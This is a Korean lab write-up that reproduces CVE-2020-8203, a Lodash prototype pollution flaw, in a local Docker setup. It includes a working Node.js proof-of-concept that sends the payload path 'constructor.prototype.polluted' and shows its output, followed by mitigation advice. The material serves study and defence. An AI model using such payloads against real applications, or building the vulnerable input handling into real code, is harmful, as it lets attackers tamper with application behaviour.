


# CVE-2020-8203

## 개요

Lodash는 JavaScript에서 배열이나 객체를 편리하게 처리할 수 있도록 도와주는 라이브러리이다.

이번 실습에서는 Lodash `4.17.15` 버전에서 발생하는 `CVE-2020-8203` 취약점을 Docker 환경에서 재현했다.

이 취약점은 **Prototype Pollution**이라고 한다. Prototype Pollution은 객체들이 공통으로 사용하는 프로토타입에 공격자가 원하는 값을 추가하는 취약점이다.

취약점 재현에는 Lodash의 `_.zipObjectDeep()` 함수를 사용했다. 공격자가 다음과 같은 객체 경로를 전달하면 프로토타입에 값이 추가될 수 있다.

```text
constructor.prototype.polluted
```

취약점이 발생하면 새로 생성한 객체에서도 `polluted` 값이 나타난다.

## 환경 설정

Lodash `4.17.15` 버전이 설치된 애플리케이션을 실행하기 위해 다음 명령을 사용한다.

```bash
docker compose up -d --build
```

컨테이너가 정상적으로 실행되었는지 확인한다.

```bash
docker compose ps
```

Lodash 버전은 다음 명령으로 확인할 수 있다.

```bash
docker compose exec vulnerable-app npm list lodash
```

실행 결과는 다음과 같다.

```text
cve-2020-8203-lab@1.0.0 /app
`-- lodash@4.17.15
```

서버는 외부에 공개되지 않도록 로컬 주소에서만 접속할 수 있게 설정했다.

```text
http://127.0.0.1:3000
```



## 취약점 재현

### 취약 조건

이번 실습에서는 다음 조건에서 취약점이 발생한다.

* Lodash `4.17.15`와 같은 취약한 버전을 사용한다.
* 사용자가 입력한 객체 경로를 `_.zipObjectDeep()` 함수에 전달한다.
* 입력값에 `constructor.prototype`과 같은 경로가 포함되어 있다.

서버에서는 사용자가 전달한 `path`와 `value`를 다음과 같이 처리한다.

```javascript
_.zipObjectDeep([input.path], [input.value]);
```

따라서 공격자가 객체의 프로토타입까지 접근하는 경로를 입력하면 다른 객체에도 영향을 줄 수 있다.

### PoC 코드

다음은 취약점 재현에 사용한 `poc.js` 코드이다.

```javascript
const http = require("http");

const HOST = "127.0.0.1";
const PORT = 3000;

function request(method, path, body) {
  return new Promise((resolve, reject) => {
    const data = body ? JSON.stringify(body) : null;

    const req = http.request(
      {
        host: HOST,
        port: PORT,
        path,
        method,
        headers: data
          ? {
              "Content-Type": "application/json",
              "Content-Length": Buffer.byteLength(data),
            }
          : {},
      },
      (res) => {
        let responseBody = "";

        res.on("data", (chunk) => {
          responseBody += chunk;
        });

        res.on("end", () => {
          try {
            resolve({
              statusCode: res.statusCode,
              body: JSON.parse(responseBody),
            });
          } catch {
            reject(new Error(`Invalid JSON response: ${responseBody}`));
          }
        });
      }
    );

    req.on("error", reject);

    if (data) {
      req.write(data);
    }

    req.end();
  });
}

async function main() {
  console.log("[1] Checking initial prototype state");

  const before = await request("GET", "/check");
  console.log(JSON.stringify(before.body, null, 2));

  console.log("\n[2] Sending malicious property path");

  const attack = await request("POST", "/pollute", {
    path: "constructor.prototype.polluted",
    value: "yes",
  });
  console.log(JSON.stringify(attack.body, null, 2));

  console.log("\n[3] Checking prototype state after attack");

  const after = await request("GET", "/check");
  console.log(JSON.stringify(after.body, null, 2));

  if (
    after.body.polluted === "yes" &&
    after.body.hasOwnProperty === false
  ) {
    console.log("\n[+] CVE-2020-8203 reproduced successfully.");
    console.log(
      "[+] A fresh object inherited the polluted property from Object.prototype."
    );
    return;
  }

  throw new Error("Prototype Pollution was not reproduced.");
}

main().catch((error) => {
  console.error(`\n[-] PoC failed: ${error.message}`);
  process.exit(1);
});
```

PoC는 다음 순서로 동작한다.

1. `/check` 요청을 보내 공격 전 객체 상태를 확인한다.
2. `/pollute` 요청으로 악성 객체 경로를 전달한다.
3. 다시 `/check` 요청을 보내 새 객체의 상태를 확인한다.
4. `polluted` 값과 `hasOwnProperty` 값을 확인한다.

### 재현 절차

다음 명령으로 `poc.js`를 실행한다.

```bash
docker compose exec vulnerable-app npm run poc
```

PoC에서는 서버에 다음 객체 경로와 값을 전달한다.

```text
경로: constructor.prototype.polluted
값: yes
```

취약점이 발생하기 전에는 새 객체에서 `polluted` 값이 나타나지 않는다.

공격 요청을 보낸 뒤 새 객체를 다시 확인하면 프로토타입에서 상속된 값이 나타난다.

### 실행 결과

PoC 실행 후 확인할 수 있는 핵심 결과는 다음과 같다.

```text
{
  "polluted": "yes",
  "hasOwnProperty": false
}

[+] CVE-2020-8203 reproduced successfully.
[+] A fresh object inherited the polluted property from Object.prototype.
```

`"polluted": "yes"`는 새로 만든 객체에서도 공격자가 넣은 값이 나타났다는 의미이다.

`"hasOwnProperty": false`는 해당 값이 객체에 직접 들어 있는 것이 아니라 프로토타입에서 상속된 값이라는 의미이다.

이를 통해 Lodash `4.17.15` 버전에서 Prototype Pollution 취약점이 발생하는 것을 확인했다.



## 환경 종료

실습이 끝나면 다음 명령을 사용하여 Docker Compose 서비스를 종료한다.

```bash
docker compose down
```

컨테이너가 종료되었는지는 다음 명령으로 확인할 수 있다.

```bash
docker compose ps
```

실행 중인 컨테이너가 표시되지 않으면 정상적으로 종료된 것이다.

## 대응 방안

가장 기본적인 대응 방법은 취약한 Lodash 버전을 사용하지 않고 안전한 최신 버전으로 업데이트하는 것이다.

```bash
npm install lodash@latest
```

Docker 환경에서는 Lodash 버전을 변경한 뒤 이미지를 다시 빌드해야 한다.

```bash
docker compose up -d --build
```

또한 사용자가 입력한 값을 객체의 속성 경로로 그대로 사용하지 않아야 한다.

특히 다음과 같은 문자열이 입력값에 포함되어 있는지 확인해야 한다.

```text
constructor
prototype
__proto__
```

가능하면 사용자가 아무 객체 경로나 입력할 수 있게 하지 않고, 프로그램에서 미리 허용한 값만 사용하도록 만드는 것이 안전하다.
